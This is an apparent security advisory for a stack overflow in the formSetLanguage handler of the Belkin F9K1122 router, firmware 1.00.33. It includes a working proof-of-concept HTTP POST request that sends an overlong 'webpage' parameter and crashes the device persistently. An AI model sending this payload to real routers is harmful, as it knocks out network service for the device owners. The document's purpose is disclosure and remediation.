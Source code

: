 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formSetLanguage` function, `webpage` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `webpage` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `webpage` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `webpage` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/formSetLanguage HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 435
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

location_page=&langtype=sc&webpage=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
